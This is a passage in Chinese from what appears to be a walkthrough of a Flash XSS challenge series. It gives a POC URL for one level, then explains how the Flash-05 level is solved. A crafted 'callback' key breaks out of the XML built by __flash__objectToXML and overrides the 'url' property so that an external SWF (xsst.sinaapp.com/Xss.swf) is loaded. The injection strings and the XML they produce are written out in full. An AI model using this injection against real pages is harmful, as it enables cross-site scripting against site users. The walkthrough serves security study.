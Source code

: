 把上面两个服务运行起来后，就有了 POC：

```
http://sandbox.host.smartgslb.com/flash_4/XSSC4.swf?hostName=test.com 
```

访问上面 POC，点击 `用户登陆` 即可。

## 14\. Flash-05

这题过关的思路很清晰，就是通过 addChild 加载一个外部的 Flash 文件，但是如果加载呢，有难度。

html 页面传入两个参数 url 和 callback，url 就是传入到 Flash 中用 addChild 去加载，但是看了下 html 中对 url 的检测和过滤代码，几乎无望。希望只能够寄托到 callback 上。

仔细理了一下整个过程，url 和 callback 这两个参数组装成 JS 中的 data 对象，callback 可控的是对象的一个键值，那思路就应该是用 callback 去覆盖掉前面的 url，达到目的。如何覆盖呢，又陷入困境。

通过 IE 的 JS 调试器，一步一步的跟踪，看下数据的整个处理流程，发现了亮点。data 是一个对象，进入到 Flash 中是要转换成 XML 的，转换的主要函数为：

```
function __flash__objectToXML(obj) {
        var s = "<object>";
        for (var prop in obj) {
                s += "<property id=\"" + prop + "\">" + __flash__toXML(obj[prop]) + "</property>";
        }
        return s+"</object>";
} 
```

看到两点了么，通过遍历对象，然后把键和值生成一个 XML 值，在函数中是不对对象的健做任何处理的，正常页面中的 data 为：

```
data={"url":".\/o_png.jpg","pkav":"pkav"}; 
```

经过处理后的 XML 值为：

```
<object><property id="url"><string>./o.png</string></property><property id="pkav"><string>pkav</string></property></object> 
```

我们把 callback 修改为：

```
url"><string>http://xsst.sinaapp.com/Xss.swf</string></property><property id="x 
```

data 就变成了：

```
var data={"url":".\/o_png.jpg","url\"><string>http:\/\/xsst.sinaapp.com\/Xss.swf<\/string><\/property><property id=\"x":"pkav"}; 
```

经过处理后的 XML 值为：

```
<object><property id="url"><string>./o.png</string></property><property id="url"><string>http://xsst.sinaapp.com/Xss.swf</string></property><property id="x"><string>pkav</string></property></object> 
```
